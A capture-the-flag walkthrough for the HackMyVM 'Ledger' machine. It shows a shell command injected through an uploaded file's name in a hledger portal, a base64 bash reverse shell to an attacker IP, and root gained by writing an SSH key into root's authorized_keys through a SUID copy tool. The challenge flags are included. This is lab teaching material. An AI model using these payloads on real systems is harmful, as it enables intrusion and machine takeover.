


# Ledger — HackMyVM Writeup

**Platform:** HackMyVM  
**Difficulty:** Easy  
**IP:** 172.20.10.3  

---

## Reconnaissance

```bash
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.3
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian
5000/tcp open  http    Werkzeug/3.1.8 Python/3.13.5
```

Navigating to `http://172.20.10.3:5000` reveals **SimpleLedger** — an internal accounting portal running hledger 1.32.3.

---

## Foothold — RCE via hledger Journal Injection

The portal has two features: CSV import and balance report generation. The CSV import passes the filename directly to hledger without sanitization.

By naming the uploaded file with a command string (e.g. `whoami;id;which python3;`) and embedding a valid journal with a malicious `include` directive, hledger executes the filename as a shell command.



The response confirms code execution as `www-data`.



Generating a base64-encoded reverse shell payload:

```bash
echo 'bash -i >& /dev/tcp/172.20.10.4/4242 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMTAuNC80MjQyIDA+JjE=
```

Uploading a file named:
```
;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMTAuNC80MjQyIDA+JjE= | base64 -d | bash;
```

```bash
# Listener on Kali
nc -lvnp 4242
```

Shell received as `www-data`. Stabilized with:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
```

---

## Privilege Escalation — www-data → root

Searching for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

A non-standard binary stands out:

```
/usr/local/bin/ledger-archiver
```

```bash
/usr/local/bin/ledger-archiver
# Usage: /usr/local/bin/ledger-archiver <source-file> <destination-file>
# Archive a ledger file into the protected backup store.
```

`strings` confirms it's a simple file copy utility using `open/read/write` syscalls — running as root via SUID. No external commands, so PATH hijacking is not applicable. Instead, we abuse the arbitrary file write to plant our SSH public key in root's `authorized_keys`.

**Step 1 — Generate SSH keypair on the target:**

```bash
ssh-keygen -t rsa -f /tmp/mykey -N ""
```

**Step 2 — Copy the public key into root's authorized_keys:**

```bash
/usr/local/bin/ledger-archiver /tmp/mykey.pub /root/.ssh/authorized_keys
```

**Step 3 — SSH in as root from Kali:**

```bash
ssh -i /tmp/mykey root@172.20.10.3
```

```
root@ledger:~# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## Flags

User flag (readable via ledger-archiver):

```bash
/usr/local/bin/ledger-archiver /home/finance/user.txt /tmp/user.txt
cat /tmp/user.txt
```

```
HMV{user-8b04d5e3775d298e78455efc5ca404d5}
```

Root flag:

```bash
cat /root/root.txt
```

| Flag | Value |
|------|-------|
| User | `HMV{user-8b04d5e3775d298e78455efc5ca404d5}` |
| Root | `HMV{root-9726255eec083aa56dc0449a21b33190}` |
